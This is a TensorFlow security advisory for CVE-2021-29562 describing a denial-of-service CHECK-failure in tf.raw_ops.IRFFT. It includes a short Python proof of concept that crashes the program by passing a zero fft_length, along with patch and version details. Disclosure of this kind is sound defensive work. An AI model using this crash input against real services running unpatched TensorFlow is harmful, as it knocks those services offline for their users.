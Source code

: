 ## TFSA-2021-050: `CHECK`-fail in `tf.raw_ops.IRFFT`

### CVE Number
CVE-2021-29562

### Impact
An attacker can cause a denial of service by exploiting a `CHECK`-failure coming
from the implementation of `tf.raw_ops.IRFFT`:

```python
import tensorflow as tf

values = [-10.0] * 130
values[0] = -9.999999999999995
inputs = tf.constant(values, shape=[10, 13], dtype=tf.float32)
inputs = tf.cast(inputs, dtype=tf.complex64)
fft_length = tf.constant([0], shape=[1], dtype=tf.int32)

tf.raw_ops.IRFFT(input=inputs, fft_length=fft_length)
```

The above example causes Eigen code to operate on an empty matrix. This triggers
on an assertion and causes program termination.

### Patches
We have patched the issue in GitHub commit
[1c56f53be0b722ca657cbc7df461ed676c8642a2](https://github.com/tensorflow/tensorflow/commit/1c56f53be0b722ca657cbc7df461ed676c8642a2).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
